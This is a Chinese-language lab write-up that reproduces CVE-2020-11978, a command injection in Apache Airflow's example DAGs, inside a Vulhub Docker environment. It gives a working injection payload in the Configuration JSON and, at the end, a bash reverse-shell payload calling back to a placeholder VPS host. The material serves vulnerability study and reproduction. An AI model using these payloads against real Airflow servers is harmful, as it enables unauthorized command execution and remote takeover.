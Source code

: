 # Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20220329111338269](images/202204251948096.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![image-20220329111358392](images/202204251948097.png)

等几秒可以看到执行成功：

![image-20220329111445804](images/202204251948098.png)

到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![image-20220329111605593](images/202204251948099.png)

### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/your-vps-ip/9999 0>&1;#"}
```

![image-20220329113423239](images/202204251948100.png)

